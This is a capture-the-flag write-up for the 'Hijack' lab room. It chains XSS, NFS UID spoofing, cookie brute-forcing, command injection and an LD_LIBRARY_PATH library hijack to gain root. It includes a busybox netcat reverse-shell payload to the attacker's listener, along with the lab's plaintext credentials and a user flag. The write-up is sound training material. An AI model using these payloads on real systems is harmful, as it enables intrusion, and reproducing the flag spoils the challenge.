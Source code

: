 # Hijack
(Flags are at the end of the writeup)

### Deploy the machine and get the flags!
Initial scan finds ports 21,22,80,111,2049,35287,41763,47944,49228 open:


OpenSSH 7.2p2 is vulnerable to [username enumeration](https://www.exploit-db.com/exploits/40136):
Accessing the website, if I create a new account I get a cookie:<br />
![image](https://github.com/user-attachments/assets/07cd2b1c-3a67-4fa3-998b-3555af60dce1)<br />
After further enumeration, I found that the `username` parameter is vulnerable to XSS. To prove it, I tried using `"><script>alert(1)</script>`, and it worked:<br />
![image](https://github.com/user-attachments/assets/556f544c-3bd3-4857-a0cf-f4aa1832e42e)<br />
I then checked the nfs service, the command to mount the shared file system is `sudo mount -t nfs 10.10.246.225:/mnt/share mount -o nolock`<br />
However only user with ID=1003 can access the shared filesystem.<br />
![image](https://github.com/user-attachments/assets/d84ec36c-483b-4c3f-a340-3b988fa4d12b)<br />
So we need to create another user with ID=1003 with `sudo useradd -u 1003 hijack`. Give a password to that user with `sudo passwd nome_utente`
After logging with the new user, I found some FTP credentials:<br />
![image](https://github.com/user-attachments/assets/762f5a5e-ebee-4a1c-97f9-a2bf1db0456f)<br />
Remember to remove the user with `sudo userdel nome_utente`. So I logged in the FTP server and found some other files:<br />
![image](https://github.com/user-attachments/assets/a3237956-df3d-4696-956c-0639f520f66d)<br />
The `passwords_list.txt` file contains, guess what, a list of complex passwords. I think I need to use this list to bruteforce something. So I tried bruteforcing the login page to access the administration panel. 
If you examine the cookie, you can see it's a base64 encoded string with the following format: `user:MD5_hashed_password`. So since we know that a user called `admin` exists, and we have the password list, then we have every ingredient to bruteforce logins.
To do that, I created (thanks, Mr. GPT), a python script called `brutecookie.py` that you can find inside this folder. Remember to change the parameters according to your instance before executing the script.<br />
![image](https://github.com/user-attachments/assets/c9ab8a6d-a882-4a69-9eb2-5298f9d37f4d)<br />
Great, we can now login using this password!<br />
![image](https://github.com/user-attachments/assets/67e4bff7-e207-4bfa-889c-f51bdc05c73f)<br />
It seems like a page to check which services exists on the host. So my guess is that it executes something like `systemctl status example.service`. So I immediatly tought of command injection. `;` gets detected, then I tried `example && whoami` and it worked!<br />
![image](https://github.com/user-attachments/assets/71ccdabd-303e-4378-baf7-483db20e0282)<br />
Time to get a reverse shell. Open a nc listener and run use the following payload `& busybox nc 10.11.108.100 4444 -e sh`.<br />
I immediately found credentials inside `confing.php`:<br />
![image](https://github.com/user-attachments/assets/de2653f1-c3f3-4de4-9502-3117292f4123)<br />
They look like mysql credentials, and I think they are, but I used them to access rick's account through ssh and get the first flag. <br />
Running `sudo -l` we get the following:<br />
![image](https://github.com/user-attachments/assets/a55d25fe-2c56-4435-8deb-e636213e3087)<br />
We can execute a binary called `apache2` and have also access to the LD_LIBRARY_PATH. LD_LIBRARY_PATH allows us to specify where the program should go look for shared libraries/objects first. So the idea is to take the name of any of the libraries used by the `apache2` binary, and create a malicious script with that exact name inside a folder that we have access to. <br />
![image](https://github.com/user-attachments/assets/b773529e-1c80-48a9-94b5-35e06b3946a8)<br />
I'm gonna take `libpcre.so.3`. So, first of all, create the malicious .c file; you can find it inside this folder, called `exploit.c`





rick:N3v3rG0nn4G1v3Y0uUp
admin:uDh3jCQsdcuLhjVkAy5x
ftpuser:W3stV1rg1n14M0un741nM4m4

- What is the user flag? `THM{fdc8cd4cff2c19e0d1022e78481ddf36}`
- What is the root flag?
